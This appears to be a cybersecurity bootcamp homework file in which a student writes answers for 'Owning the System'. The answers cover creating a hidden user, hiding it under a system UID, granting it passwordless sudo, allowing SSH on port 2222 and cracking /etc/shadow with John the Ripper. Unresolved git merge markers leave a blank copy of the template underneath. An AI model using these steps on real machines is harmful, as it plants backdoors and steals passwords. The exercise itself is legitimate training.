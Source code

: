 <<<<<<< HEAD
## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

         useradd -M sysd
![sysd](image\sysd.png)

2. Give your secret user a password: 

         passwd sysd
    ![password](image\password.png)

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd
    ![UIDandGID](image\UIDandGID.png)


4. Give your secret user the same GID:

        groupmod -g 997 sysd
    ![UIDandGID](image\UIDandGID.png)

5. Give your secret user full `sudo` access without the need for a password:

        
        visudo
        sysd ALL=(ALL) NOPASSWD:ALL
    ![sudo](image\sudo.png)
    



6. Test that `sudo` access works without your password:

        sudo -l
    ![sudofile](image\sudofile.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

                sudo nano /etc/ssh/sshd_config
    ![sshfile.png](image\sshfile.png)
        

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh



2. Exit the `root` account:

        command exit or command su with the user account you want to switch to.

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222
![sshsysd.png](image\sshsysd.png)

4. Use `sudo` to switch to the root user:

        sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        su sysd

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file: 

        unshadow passwd.txt shadow.txt > unshadowed.txt
        john --wordlist=/usr/share/john/password.lst unshadowed.txt



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

=======
# Bootcamp-Security

         Week 6 Homework Submission File: Advanced Bash - Owning the System
Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.
Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

Your solution command here

        hello world



Give your secret user a password:

Your solution command here



Give your secret user a system UID < 1000:

Your solution command here



Give your secret user the same GID:

Your solution command here



Give your secret user full sudo access without the need for a password:

Your solution command here



Test that sudo access works without your password:

Your bash commands here




Step 2: Smooth Sailing


Edit the sshd_config file:

Your bash commands here




Step 3: Testing Your Configuration Update


Restart the SSH service:

Your solution command here



Exit the root account:

Your solution command here



SSH to the target machine using your sysd account and port 2222:

Your solution command here



Use sudo to switch to the root user:

Your solution command here



Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:

Your solution command here



Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:

Your solution command here  
>>>>>>> 2619056d2767f9a581426d32e458ca20193dbc2e
